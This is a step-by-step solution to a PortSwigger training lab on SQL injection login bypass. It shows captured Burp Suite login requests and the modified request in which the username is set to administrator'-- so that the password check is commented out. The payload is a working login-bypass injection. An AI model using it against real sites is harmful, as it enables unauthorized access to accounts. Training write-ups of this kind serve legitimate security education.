 ```yaml
---
title: >
  Solution to Lab: SQL injection vulnerability allowing login bypass
---
```


The following is a solution to the lab titled ["Lab: SQL injection vulnerability allowing login bypass"](https://portswigger.net/web-security/sql-injection/lab-login-bypass).

In Burp Suite, in the Proxy tab, click **Intercept is off**. This turns Intercept on, which will capture any incoming HTTP requests.

In the user interface (UI) of the lab, attempt to log in using the username `administrator` and any password (in this case, `orange`). 

Burp Suite Proxy will capture the login attempt and show an editable HTTP request like the one below:

~~~
POST /login HTTP/2
Host: 0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Cookie: session=qgW9Lfp4Nnol2ItJDXq9NnxZhlUAeg4T
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Referer: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=11a7DpsSQo8lKiyViRXJ1oMuidLD7zqI&username=administrator&password=orange
~~~

In the last line of the HTTP request, modify the text after `username`, adding `'--`. Note the following modified request.

~~~
POST /login HTTP/2
Host: 0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Cookie: session=qgW9Lfp4Nnol2ItJDXq9NnxZhlUAeg4T
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Referer: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=11a7DpsSQo8lKiyViRXJ1oMuidLD7zqI&username=administrator'--&password=orange
~~~

Click **Forward** and then click **Intercept is on** (to turn off Intercept).

Navigate back to the UI. The UI should be logged in to the `administrator` account, and the lab should be marked as solved.

---

SQL Note

The unmodified request sends a SQL query with the username `administrator` and the password `orange` to the back end for authentication. This login attempt fails, since `orange` is not the correct password.

Adding `'--` after the username in the login request modifies the SQL query by instructing the server to regard everything after `'--` as a comment, thus telling the server to only check the username to give the user access to the account.
